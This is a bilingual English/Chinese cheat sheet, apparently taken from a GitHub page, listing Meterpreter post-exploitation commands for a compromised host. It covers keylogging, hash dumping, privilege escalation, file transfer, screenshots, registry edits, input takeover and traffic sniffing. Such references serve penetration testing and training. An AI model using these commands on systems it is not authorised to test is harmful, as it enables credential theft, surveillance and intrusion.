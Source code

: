 `reg command`
Interact, create, delete, query, set, and much more in the target’s registry.
在目标主机注册表中进行交互，创建，删除，查询等操作。

`setdesktop number`
Switch to a different screen based on who is logged in.
切换到另一个用户界面（该功能基于哪些用户已登录）。

`screenshot`
Take a screenshot of the target’s screen.
对目标主机的屏幕进行截图。

`upload file`
Upload a file to the target.
向目标主机上传文件。

`download file`
Download a file from the target.
从目标主机下载文件。

`keyscan_start`
Start sniffing keystrokes on the remote target.
针对远程目标主机开启键盘记录功能。

`keyscan_dump`
Dump the remote keys captured on the target.
存储目标主机上捕获的键盘记录。

`keyscan_stop`
Stop sniffing keystrokes on the remote target.
停止针对目标主机的键盘记录。

`getprivs`
Get as many privileges as possible on the target.
尽可能多的获取目标主机上的特权。

`uictl enable keyboard/mouse`
Take control of the keyboard and/or mouse.
接管目标主机的键盘和鼠标。

`background`
Run your current Meterpreter shell in the background.
将你当前的Meterpreter shell转为后台执行。

`hashdump`
Dump all hashes on the target.
导出目标主机中的口令哈希值。

`use sniffer`
Load the sniffer module.
加载嗅探模块。

`sniffer_interfaces`
List the available interfaces on the target.
列出目标主机所有开放的网络接口。

`sniffer_dump interfaceID pcapname`
Start sniffing on the remote target.
在目标主机上启动嗅探。
